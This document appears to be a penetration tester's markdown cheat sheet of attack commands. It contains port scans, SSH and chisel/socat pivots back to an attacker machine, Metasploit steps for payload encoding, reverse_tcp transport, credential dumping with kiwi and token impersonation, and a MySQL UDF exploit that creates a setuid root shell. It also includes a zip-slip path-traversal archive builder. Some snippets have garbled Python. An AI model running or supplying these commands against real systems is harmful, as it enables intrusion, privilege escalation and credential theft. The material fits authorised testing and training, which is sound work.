 
# Common 

- [CyberChef](https://gchq.github.io/CyberChef) - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis
- [OSINT Framework](https://osintframework.com/)

## Enumeration

### Nmap
```
nc -zv $target 1-65535 2>&1 | grep succeeded
```
```
for i in $(seq 1 65535); do nc -nvz -w 1 $target $i 2>&1; done | grep -v "Connection refused"
```
```
time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done
```
```
$pwd/tools/general/onetwopunch.sh -t targets.txt -i tap0 -n '-n -vvv -T4  -sV -sC -A --osscan-guess --version-all -oA "$pwd/_output/$(target_ip)/full_tcp_unicorn_nmap" --script=*vuln*'
```
```
nmap -vv --reason -Pn -vvv -A --osscan-guess --version-all -p- $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -A --osscan-guess --version-all -p- -oA "$pwd/_output/$(target_ip)/full_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_quick_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_formated_tcp_nmap" --stylesheet https://raw.githubusercontent.com/snovvcrash/snovvcrash.github.io/master/reports/nmap/nmap-bootstrap.xsl $target
```

### NBTScan
```
nbtscan $target_ip/24 | tee $pwd/_output/$(target_ip)/nbtscan.txt
```

### nping
```
nping –tcp -p 80 -c 4 –flags SYN $target_ip
```
```
nping –tcp-connect -c 1 -p 3389 $target_ip
```

## Searching 

```
grep -rRw /home -e "^.*test.*test.*" --color
# -w - matching substring must either be at the beginning of the line, or preceded by a non-word constituent character
# -L, --files-without-match
# -l, --files-with-matches
# -r, --recursive
# -R, --dereference-recursive (follow sym-links)
```
```
grep -iRn "example" --color /home
```

## Pivoting 

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

Using chisel: <https://github.com/jpillora/chisel>
- From attacker:
```
.\chisel.exe server -p $source_port --reverse
```
- From victim:
```
.\chisel.exe client $source_ip:$source_port R:223:localhost:14147
```
Forward 8888 of current to target:22
```
./socat tcp-listen:8888,reuseaddr,fork tcp:$target:22 &
```
Forward 2323 to attacker's machine (on attacker's machine do `nc -lvnp $source_port`)
```
./socat tcp-listen:2323,reuseaddr,fork, tcp:$source_ip:$source_port &
```

## Docker 

File path
```
docker_path=/proc/$(docker inspect --format <ContainerID>)/root
```

Transfer:
```
docker save uzyexe/nmap -o nmap.tar
# ...
docker load -input nmap.tar
docker run --network=br0 -it --rm uzyexe/nmap 
```

Check if in Docker guest:
```
cat /proc/self/cgroup | grep docker
```

## Metasploit
```
set AutoRunScript multi_console_command -r $pwd/payloads_linux/automigrate.rc
```
```
set AutoRunScript post/windows/manage/migrate
```
```
set AutoRunScript windows/gather/enum_logged_on_users
```
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
```
transport add -t reverse_tcp -l 10.11.0.4 -p 5555
transport list
```
```
load powershell
load kiwi
```
```
route add 192.168.1.0/24 11
route print
use multi/manage/autoroute
use auxiliary/server/socks4a
portfwd add -l 3389 -p 3389 -r 192.168.1.110
```
```
use incognito
list_tokens -u
impersonate_token example\\Administrator
```

## MySQL

46249
```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

## Enabling Logs

- MySQL:
    ```bash
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/my.cnf 
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/mysql.conf.d/mysqld.cnf
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/conf.d/mysqld.cnf
    ```
    ```bash
    sudo systemctl restart mysql
    ```
    ```bash
    sudo tail -f /var/log/mysql/mysql.log
    ```
- PostgreSQL
    ```bash
    echo "log_statement = 'all'" >> postgresql.conf  #none, ddl, mod, all. written to pgsql_log
    ```
    ```
    pgsql\data\amdb\pgsql_log\
    ```
- PHP
    ```bash
    echo "display_errors = On" >> /etc/php5/apache2/php.ini
    echo "display_errors = On" >> /etc/php6/apache2/php.ini
    echo "display_errors = On" >> /etc/php7/apache2/php.ini
    ```
    ```bash
    sudo systemctl restart apache2
    ```
    ```bash
    sudo tail -f /var/log/apache2/error.log
    ```

## Ping check 
```
tcpdump -i tun0 icmp 
```

## Python Snippets 

Create ZIP file"
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def build_zip(): f = StringIO()
  z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
  z.writestr('poc/poc.txt', 'poc')
  z.writestr('../../../../../../../../../../tmp/poc.txt', 'poc')
  z.close()
  zip = open('poc.zip','wb')
  zip.write(f.getvalue())
  zip.close()

build_zip()
```

HTTP Request
```python
import sys
import requests
import urllib3 urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
    if len(sys.argv) != 2:
        print "[+] Usage   : %s <target>" % sys.argv[0] 
        print "[+] Example : %s target" % sys.argv[0]
        sys.exit(1)

    target = sys.argv[1]
    param = "example"
    rsp = requests.get('https://%s:8080/example' % target, params='test=%s' % param, verify=False)
    print rsp.text
    print rsp.headers

if __name__ == '__main__': 
    main()
```

## Crypto

Base64 to Hex

```
echo -n '4as8gqENn26uTs9srvQLyg==' | base64 -D | xxd -p
```
```
gpg --list-secret-keys
```
```
gpg -d root.txt.gpg 
```